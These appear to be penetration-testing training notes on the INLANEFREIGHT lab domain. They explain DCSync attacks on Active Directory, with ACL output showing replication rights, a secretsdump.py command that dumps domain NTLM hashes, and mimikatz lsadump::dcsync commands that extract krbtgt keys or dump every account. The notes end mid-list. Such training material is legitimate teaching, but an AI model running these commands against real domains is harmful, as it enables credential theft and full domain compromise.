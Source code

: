 ```powershell
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType         : DS-Replication-Get-Changes

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType         : DS-Replication-Get-Changes-All
```

Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py

#DCSync

```shell
ADNSecurity@htb[/htb]$ secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
```

On Windows, [mimikatz](https://github.com/gentilkiwi/mimikatz) (C) can be used [`lsadump::dcsync`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/dcsync) to operate a DCSync and recover the `krbtgt` keys for a [golden ticket attack](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/golden) for example. For this attack to work, the following mimikatz command should run in an elevated context (i.e. through runas with plaintext password, [pass-the-hash](https://www.thehacker.recipes/ad/movement/ntlm/pth) or [pass-the-ticket](https://www.thehacker.recipes/ad/movement/kerberos/ptt)).

```powershell

# Extract a specific user, in this case the krbtgt
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt

# Dump everything (printed in a short and readable format)
lsadump::dcsync /dc:172.16.5.5 /domain:INLANEFREIGHT.LOCAL /all /csv
```

```
set type=all
_ldap._tcp.dc._msdcs.INLANEFREIGHT
```

We can use the `-just-dc-ntlm` flag if we only want NTLM hashes or specify `-just-dc-user <USERNAME>` to only extract data for a specific user. Other useful options include `-pwd-last-set` to see when each account's password was last changed and `-history` if we want to dump password history, which may be helpful for offline password cracking or as supplemental data on domain password strength metrics for our client. The `-user-status` is another helpful flag to check and see if a user is disabled. We can dump the NTDS data with this flag and then filter out disabled users when providing our client with password cracking statistics to ensure that data such as:

- Number and % of passwords cracked
- top 10 passwords
- Password length metrics
- Password re-use
